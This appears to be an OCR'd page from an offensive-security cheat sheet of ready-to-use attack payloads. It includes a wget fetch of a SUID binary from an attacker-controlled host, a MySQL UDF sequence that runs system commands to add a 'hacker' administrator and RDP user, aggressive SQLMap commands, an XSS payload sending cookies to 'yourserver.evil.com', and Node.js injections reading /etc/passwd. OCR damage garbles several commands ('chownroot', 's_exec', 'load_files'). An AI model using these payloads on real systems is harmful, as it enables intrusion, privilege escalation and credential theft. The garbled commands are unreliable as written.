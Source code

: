 Upload suid.c program
```
    wget http://ip:port/privex/mysql/suid-o /tmp/suid
    chownroot:root /tmp/suid
    chmod4777 /tmp/suid
```

Load MYSQLUDFfor Windows
``` 
    USE mysql;
    CREATE TABLE npn(line blob);
    INSERT INTO npn values(load_files('C://xampplite//webdav//lib_mysqludf_sys.dll'));
    SELECT * FROM mysql.npnINTO DUMPFILE'c://windows//system32//lib_mysqludf_sys_32.dll';
    CREATE FUNCTION sys_exec RETURNS integer SONAME'lib_mysqludf_sys_32.dll';
    SELECT sys_exec("net user hacker hacker1234!@#$ /add");
    SELECT sys_exec("net localgroupAdministrators hacker /add");
    s_exec('net localgroup"Remote Desktop Users" hacker /add');
```

#### SQLMap

Automated website crawl and test of SQLi
```
    python sqlmap.py -u http://example.com --forms --batch --crawl=10 --cookie=jsessionid=12345 --level=5 --risk=3
```

### XSS 

Grab cookie
``` 
    document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')
```

XSS via image tag
```
    <img src="x" onerror="alert('Suck it, Trebek!')" />
```

### Server-side Javascript Injection via Node or ElementJS

File system directory listing
``` 
    res.end(require('fs').readdirSync('.').toString())
```

File read
``` 
    res.end(require('fs').readFileSync('/etc/passwd').toString())
```

### Cold Fusion

Sources:
[JMPESPJUMP - Attacking Adobe Cold Fusion](https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html)

